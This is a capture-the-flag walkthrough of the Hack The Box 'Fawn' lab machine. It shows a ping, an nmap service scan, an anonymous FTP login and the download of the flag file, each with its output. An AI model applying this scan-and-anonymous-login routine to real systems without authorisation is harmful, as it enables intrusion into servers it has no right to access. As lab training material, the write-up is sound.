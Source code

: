 # [Fawn](https://app.hackthebox.com/starting-point)

## Target IP - 10.129.23.79

### Enumeration

Here we are checking if we are able to establish a connection with the target machine. In conclusion we are able to establish a connection between our lab with the target.

**Command 1** - 

`ping 10.129.23.79`

**Output** -

```
PING 10.129.23.79 (10.129.23.79) 56(84) bytes of data.
64 bytes from 10.129.23.79: icmp_seq=1 ttl=62 time=2539 ms
64 bytes from 10.129.23.79: icmp_seq=2 ttl=62 time=1750 ms
64 bytes from 10.129.23.79: icmp_seq=3 ttl=62 time=710 ms
64 bytes from 10.129.23.79: icmp_seq=4 ttl=62 time=2188 ms
64 bytes from 10.129.23.79: icmp_seq=5 ttl=62 time=1395 ms
64 bytes from 10.129.23.79: icmp_seq=6 ttl=62 time=357 ms
^C
--- 10.129.23.79 ping statistics ---
7 packets transmitted, 6 received, 14.2857% packet loss, time 6224ms
rtt min/avg/max/mdev = 357.205/1489.906/2539.444/769.909 ms, pipe 3
```

Here we are scanning the target machine for the open ports or services. In conclusion we find out that there is service named as ftp which is open on 21/tcp port. We can try accessing the service.

**Command 2** -

`sudo nmap -sV 10.129.23.79 -p 1-100`

**Output** - 

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-07-16 21:39 IST
Nmap scan report for 10.129.23.79
Host is up (0.64s latency).
Not shown: 99 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
Service Info: OS: Unix

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.76 seconds
```


### Foothold

Here we tried to access the target machine through the ftp and tried the username as `anonymous` which worked for any password and then we got the ftp shell of the target machine.

**Command 3** -

`ftp 10.129.23.79`

**Output** - 

```
Connected to 10.129.23.79.
220 (vsFTPd 3.0.3)
Name (10.129.23.79:goobar07): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
```

Here we printed the list of contents of the directory we are in so that we can get a clue. In conclusion we found the flag.txt which contains the flag of the machine.

**Command 4** -

`ls`

**Output** - 

```
229 Entering Extended Passive Mode (|||23519|)
150 Here comes the directory listing.
-rw-r--r--    1 0        0              32 Jun 04  2021 flag.txt
226 Directory send OK.
```

Here we downloaded the flag.txt to our lab which then can be accessed to view its content.

**Command 5** - 

`get flag.txt`

**Output** -

```
local: flag.txt remote: flag.txt
229 Entering Extended Passive Mode (|||63256|)
150 Opening BINARY mode data connection for flag.txt (32 bytes).
100% |***********************************************************|    32      180.63 KiB/s    00:00 ETA
226 Transfer complete.
32 bytes received in 00:00 (0.04 KiB/s)
```

### This machine has been pawned.
~goobar07
